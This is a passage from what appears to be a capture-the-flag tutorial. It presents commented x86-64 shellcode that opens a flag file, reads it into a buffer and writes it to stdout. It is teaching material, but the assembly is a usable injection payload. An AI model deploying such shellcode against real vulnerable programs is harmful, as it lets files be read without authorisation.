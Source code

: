 The most common system call folks use is <tt>exec</tt>, which opens an interactive shell (hence, "shellcode"). But personally, I like to use <tt>open</tt> to get a handle to the flag file, <tt>read</tt> to read it into a buffer, and <tt>write</tt> to write it out to stdout (and therefore to the player). I find the open/read/write style to be more versatile and easier to remember.

Here is some simple, unoptimized shellcode. I tried to comment it as best I could:
<pre id="vimCodeElement"><span class="Identifier">bits</span> <span class="Number">64</span>

<span class="Comment">;;; OPEN</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">2</span> <span class="Comment">; Syscall 2 = sys_open</span>
  <span class="Identifier">call</span> <span class="Identifier">getfilename</span> <span class="Comment">; Pushes the next address onto the stack and jumps down</span>
  <span class="Identifier">db</span> "/<span class="Identifier">home</span>/<span class="Identifier">ctf</span>/<span class="Identifier">flag</span><span class="Statement">.txt</span>",<span class="Number">0 </span><span class="Comment">; The literal flag, null terminated</span>
<span class="Identifier">getfilename</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Pop the top of the stack (which is the filename) into rdi</span>
  <span class="Identifier">mov</span> <span class="Identifier">rsi</span>, <span class="Number">0 </span><span class="Comment">; Flags = 0</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">0 </span><span class="Comment">; Mode = 0</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform sys_open() syscall, the file handle is returned in rax</span>

<span class="Comment">;;; READ</span>

  <span class="Identifier">push</span> <span class="Identifier">rdi</span> <span class="Comment">; Temporarly store the filename pointer</span>
  <span class="Identifier">push</span> <span class="Identifier">rax</span> <span class="Comment">; Temporarily store the handle</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">0 </span><span class="Comment">; Syscall 0 = sys_read</span>
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Move the file handle into rdi</span>
  <span class="Identifier">pop</span> <span class="Identifier">rsi</span> <span class="Comment">; Use the same buffer where the filename pointer is stored (it's readable and writable)</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">30</span> <span class="Comment">; rdx is the count</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform sys_read() syscall, reading from the opened file</span>

<span class="Comment">;;; WRITE</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">1</span> <span class="Comment">; Syscall 1 = sys_write</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdi</span>, <span class="Number">1</span> <span class="Comment">; File handle to write to = stdout = 1</span>
  <span class="Comment">; (rsi is already the buffer)</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">30</span> <span class="Comment">; rdx is the count again</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform the sys_write syscall, writing the data to stdout</span>

